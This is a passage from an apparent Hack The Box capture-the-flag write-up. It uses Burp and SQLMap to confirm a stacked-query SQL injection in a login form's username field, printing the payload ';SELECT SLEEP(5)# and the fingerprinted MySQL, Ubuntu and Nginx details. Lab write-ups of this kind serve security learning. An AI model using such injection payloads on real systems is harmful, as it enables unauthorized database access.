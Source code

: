 ### Exploitation

Let's capture this in Burp and feed it into SQLMap to help enumerate this further:

![htb_monitors3_sqlmap1.png](../assets/monitorsthree_assets/htb_monitors3_sqlmap1.png)

```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 3756 HTTP(s) requests:
---
Parameter: username (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=';SELECT SLEEP(5)#
---
[17:24:54] [INFO] the back-end DBMS is MySQL
[17:24:54] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
```

